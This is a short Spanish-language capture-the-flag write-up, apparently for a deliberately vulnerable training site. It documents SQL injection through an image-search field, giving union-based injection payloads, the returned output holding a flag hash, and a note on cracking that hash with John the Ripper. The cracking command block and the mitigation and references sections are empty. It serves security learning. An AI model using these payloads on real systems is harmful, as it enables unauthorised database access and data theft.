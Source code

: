 # SQL Injection - Images
### A03:2021-Injection


Misma vulnerabilidad que [la inyección SQL en la vista de usuarios](./sql_injection_users.md). 

## Ataque

- **Localización: **?

En el apartado de búsqueda de imágenes tenemos un buscador de imágenes por id, en este caso la inyección está un poco más obfuscada ya que no imprime por pantalla el error de la query.

De todas formas, si enviamos como input `1 or 1=1`, recibimos todas las imágenes guardadas en la base de datos.

Inyectamos la siguiente query:
```
1 or 1=1 union select title, comment from list_images
```

Nos devuelve esto:
```
ID:  1 or 1=1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

Crackeamos el hash MD5 con **johntheripper**.

```bash

```
## Mitigación

## Referencias